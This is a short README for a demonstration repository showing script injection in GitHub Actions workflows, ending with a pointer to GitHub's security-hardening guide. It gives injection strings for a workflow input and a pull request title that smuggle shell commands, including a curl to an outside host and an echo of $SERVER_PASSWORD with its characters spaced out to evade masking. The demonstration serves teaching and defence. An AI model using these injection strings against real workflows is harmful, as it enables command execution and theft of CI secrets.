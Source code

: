 inputs-demo
===

:closed_lock_with_key: [ Classification: public ]

Repository to demonstrate script injection attacks in GitHub workflows.


# Injection

## Input

Trigger deployment worklow with "modified" version info

![alt text](image-input.png)

`1.2.3 && curl https://www.bhs-world.com`


**Additional**: Steal the secret:

`1.2.3 && echo $SERVER_PASSWORD | sed 's/./& /g'`


## Title in pullrequest

Create pullrequest with modified title

![injection](./image-pullrequest.png)

`deploy.sh" && curl https://www.bhs-world.com && echo "`

# Mitigation

See [Security hardening for GitHub Actions](https://docs.github.com/en/enterprise-server@3.12/actions/security-guides/security-hardening-for-github-actions?learn=getting_started&learnProduct=actions#good-practices-for-mitigating-script-injection-attacks)
